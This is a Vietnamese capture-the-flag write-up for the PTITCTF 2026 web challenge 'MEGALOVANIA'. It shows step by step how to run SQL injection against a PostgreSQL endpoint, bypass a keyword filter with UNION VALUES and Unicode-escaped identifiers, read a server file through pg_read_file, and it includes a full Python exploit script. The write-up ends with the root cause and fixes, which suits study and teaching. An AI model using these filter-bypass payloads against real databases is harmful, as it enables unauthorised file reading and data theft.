






# PTITCTF 2026

## 1. Web - MEGALOVANIA

### Mô tả bài

Challenge cung cấp một game **Bad Time Simulator**. Khi người chơi chết, JavaScript gửi số lần chết tới endpoint `/count` để lấy các câu thoại tương ứng. Mục tiêu là khai thác endpoint này để đọc flag.

Ứng dụng sử dụng PostgreSQL. Tham số `deaths` đáng lẽ chỉ nhận số nguyên, nhưng server lại đưa trực tiếp giá trị người dùng kiểm soát vào câu truy vấn SQL. Lỗ hổng chính là **SQL Injection**, kết hợp với bộ lọc từ khóa có thể bypass.

### Phân tích và khai thác

Đọc HTML và JavaScript của trang game, ta thấy hàm lấy dialogue gửi request tới `/count`:

```javascript
function fetchLines(n, cb) {
    fetch("/count", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({ deaths: Math.min(n, 12) })
    })
        .then(function (r) { return r.json(); })
        .then(function (d) { cb((d && d.lines) || []); });
}
```

Suy ra endpoint sử dụng `POST` và nhận JSON có trường `deaths`.



Khi game mới bắt đầu, giá trị số lần chết là `0`, nên request baseline có dạng:

```http
POST /count HTTP/1.1
Host: 144.79.188.39:47102
Content-Type: application/json

{"deaths":0}
```

Giá trị `0` ở đây chỉ là ví dụ baseline. Trong quá trình chơi, giá trị này sẽ thay đổi theo số lần chết và được giới hạn bởi `Math.min(n, 12)` ở phía client.

Response hợp lệ có dạng:

```json
{
  "lines": ["heya.", "you've been busy, huh?", "..."],
  "status": "ok"
}
```


Giới hạn `Math.min(n, 12)` chỉ được áp dụng ở phía client. Vì vậy, nó không bảo vệ endpoint nếu server không kiểm tra lại kiểu và giá trị của `deaths`.

Thay số nguyên bằng một biểu thức SQL:

```json
{"deaths":"0 OR 1=1"}
```



Request bình thường trả về 16 dòng, trong khi payload trên trả về nhiều dòng dialogue hơn. Điều này cho thấy giá trị `deaths` được đưa vào câu truy vấn SQL thay vì được bind như một tham số. Có thể hình dung truy vấn phía server như sau:

```sql
SELECT <dialogue_column>
FROM <dialogue_table>
WHERE <death_column> <= <giá_trị_deaths>;
```

Sau khi chèn payload, điều kiện trở thành:

```sql
WHERE <death_column> <= 0 OR 1=1
```

Vì `1=1` luôn đúng nên nhiều bản ghi được trả về.

Mình sẽ thử payload UNION thông thường:

```text
0 union select version()--
```



Server trả về HTTP `403`, cho thấy ứng dụng có bộ lọc từ khóa chặn chuỗi `UNION SELECT`.

Ta thay `SELECT` đứng ngay sau `UNION` bằng `VALUES`, còn phần truy vấn con vẫn dùng `SELECT`:

```text
0 union values((select version()))--
```



Payload được chấp nhận và response xuất hiện thông tin phiên bản PostgreSQL:

```text
PostgreSQL 16.15 on x86_64-alpine-linux-musl, compiled by cc (Alpine 15.2.0) 15.2.0, 64-bit
```

`UNION VALUES(...)` tạo thêm một dòng có cùng số cột với kết quả truy vấn gốc. Phần `(select version())` là scalar subquery trả về một giá trị. Ký hiệu `--` comment phần còn lại của câu SQL.

Mục tiêu tiếp theo là sử dụng hàm PostgreSQL để đọc file chứa flag:

```sql
pg_read_file('/flag.txt')
```

Payload viết trực tiếp tên hàm bị chặn:

```text
0 union values((select pg_read_file('/flag.txt')))--
```



PostgreSQL hỗ trợ Unicode escape trong quoted identifier. Vì vậy, có thể viết tên hàm như sau:

```text
U&"pg\005fread_file"
```

Chuỗi `\005f` tương ứng với ký tự `_`. Sau khi được PostgreSQL phân tích, identifier trên trở thành `pg_read_file`, trong khi bộ lọc không nhìn thấy chuỗi literal `pg_`.

Payload cuối cùng:

```text
0 union values((select U&"pg\005fread_file"('/flag.txt')))--
```

Khi gửi trong JSON, dấu ngoặc kép và backslash phải được escape:

```json
{"deaths":"0 union values((select U&\"pg\\005fread_file\"('/flag.txt')))--"}
```




#### Script khai thác

```python
import re
import requests

URL = "http://144.79.188.39:47102/count"
PAYLOAD = r'''0 union values((select U&"pg\005fread_file"('/flag.txt')))--'''

response = requests.post(URL, json={"deaths": PAYLOAD}, timeout=10)
response.raise_for_status()

for line in response.json().get("lines", []):
    match = re.search(r"PTITCTF\{[^}\r\n]+\}", str(line))
    if match:
        print(match.group(0))
        break
else:
    raise RuntimeError("Không tìm thấy flag trong response")
```

---

### Root cause

Lỗ hổng xuất phát từ việc server đưa trực tiếp dữ liệu người dùng vào câu truy vấn PostgreSQL mà không dùng prepared statement và không kiểm tra chặt chẽ kiểu dữ liệu của `deaths`. Việc giới hạn `Math.min(n, 12)` chỉ nằm ở client nên có thể bị bỏ qua bằng cách gửi request thủ công.

Bộ lọc chỉ dựa trên việc tìm chuỗi (`UNION SELECT`, `pg_`) nên có thể bypass bằng cú pháp SQL khác và Unicode escape. Cách khắc phục là dùng parameterized query, parse `deaths` thành số nguyên trong khoảng cho phép, đồng thời không cấp quyền đọc filesystem cho database role của ứng dụng.

**Flag:**

```text
PTITCTF{https://youtu.be/0FCvzsVlXpQ?si=always_wondered_why_people_never_use_their_strongest_attack_first_670622c19115}
```
